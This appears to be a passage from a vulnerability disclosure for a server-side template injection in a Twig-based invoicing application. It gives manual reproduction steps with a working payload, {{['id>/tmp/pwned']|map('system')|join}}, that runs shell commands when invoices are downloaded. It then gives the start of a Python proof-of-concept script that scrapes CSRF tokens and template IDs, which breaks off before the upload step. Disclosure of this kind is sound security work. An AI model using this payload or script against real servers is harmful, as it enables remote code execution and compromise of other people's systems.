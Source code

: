Steps to Reproduce (Manually):
1- Upload a malicious Twig file to the server containing the following payload {% raw %}```{{['id>/tmp/pwned']|map('system')|join}}```{% endraw %}
2- Trigger the SSTI vulnerability by downloading the invoices.
3- The malicious code gets executed, leading to RCE.
4- /tmp/pwned file will be created on the target system

I've also attached an automated script to ease up the process of reproducing:
 # Proof of Concept

{% raw %}```python
import requests
import re
import string
import random
import sys

session = requests.session()
BASE_URL = sys.argv[1]


def generate(size=6, chars=string.ascii_uppercase + string.digits):
    return ''.join(random.choice(chars) for _ in range(size))


def get_csrf(path, session):
    try:
        project_id = ""
        csrf_token = ""
        preview_id = ""
        template_ids = []
        activity_customer_list = []
        
        csrf_login_response = session.get(f"{BASE_URL}{path}").text
        
        # Extract CSRF Token
        pattern = re.compile(r'<input[^>]*?name=["\'].*?token[^"\']*["\'][^>]*?value=["\'](.*?)["\'][^>]*?>', re.IGNORECASE)
        match = pattern.search(csrf_login_response)
        if match:
            csrf_token = match.group(1)
        
        if "performSearch" in path:
            preview_pattern = re.compile(r'<div[^>]*id="preview-token"[^>]*data-value="(.*?)"[^>]*>', re.IGNORECASE)
            preview_match = preview_pattern.search(csrf_login_response)
            if preview_match:
                preview_id = preview_match.group(1)

        
        template_pattern = re.compile(r'<option value="(\d+)" selected="selected">', re.IGNORECASE)
        template_matches = template_pattern.findall(csrf_login_response)
        if template_matches:
            template_ids = [int(id) for id in template_matches]
        
        if "timesheet" in path:
            option_pattern = re.compile(r'<option value="(\d+)" data-customer="(\d+)" data-currency="EUR">', re.IGNORECASE)
            option_matches = option_pattern.findall(csrf_login_response)
            if option_matches:
                activity_customer_list = [(int(activity_id), int(customer_id)) for activity_id, customer_id in option_matches]
        
        if "project" in path or "activity" in path:
            project_id_match = re.search(r'<option value="(\d+)"[^>]*data-currency="EUR"[^>]*>', csrf_login_response)
            if project_id_match: